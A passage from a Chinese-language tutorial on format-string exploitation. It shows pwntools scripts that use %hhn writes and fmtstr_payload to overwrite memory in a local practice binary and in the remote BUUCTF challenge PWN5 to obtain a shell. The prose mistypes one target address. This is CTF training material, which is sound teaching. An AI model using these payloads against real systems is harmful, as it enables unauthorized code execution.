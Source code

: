 输出结果：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf22.png?x-oss-process=style/watermark)

可以看到，以h格式输出时，整数30504被转换为2个字符的十六进制数"7728"，而以hh格式输出时，整数30504被转换为1个字符的十六进制数"28"。

```python
from pwn import *
sh = process('./overwrite')
b_addr=0x0804A028
payload = p32(b_addr)+p32(b_addr+1)+p32(b_addr+2)+p32(b_addr+3)
payload += '%104x'+'%6$hhn'+'%222x'+'%7$hhn'+'%222x'+'%8$hhn'+'%222x'+'%9$hhn'
#到 %6$hhn 前面有4个地址也就是16个字符，16+104=120=0x78，120+222=342=0x156，hh只取后面两个字节，就是0x56，
#同理，后面依次为0x234、0x312 即0x34、0x12。
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

也可以用pwntools自带的函数：

```python
sh.sendline(fmtstr_payload(6, {0x804A028:0x12345678}))
```

成功输出modified b for a big number! 

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf23.png?x-oss-process=style/watermark)

# 三、例题

buuctf题目：https://buuoj.cn/challenges#[%E7%AC%AC%E4%BA%94%E7%A9%BA%E9%97%B42019%20%E5%86%B3%E8%B5%9B]PWN5

题目名字：[第五空间2019 决赛]PWN5

反汇编：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf24.png?x-oss-process=style/watermark)

可以看到存在格式化字符串漏洞，然后有system函数。程序首先会生成一个随机值，然后让用户输入一个值，如果该值与随机值相等，就可以获取shell。

可以看到随机值储存在0x804C44的地方，如果我们可以控制这个地方，就可以控制随机值，从而执行shell了。

利用格式化字符串漏洞：

先输入AAAA%p%p%p%p%p%p%p%p%p%p%p%p判断参数位置：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/fmtstr/pf26.png?x-oss-process=style/watermark)

可以看到第一次出现0x41时，是格式化字符串的第 10个参数。

```python
from pwn import *
p=remote('node4.buuoj.cn',28201)
payload = fmtstr_payload(10,{0x804C044:0x1})#将随机数写为1
p.recvuntil('name:')
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")#输入1，执行system
p.interactive()
```
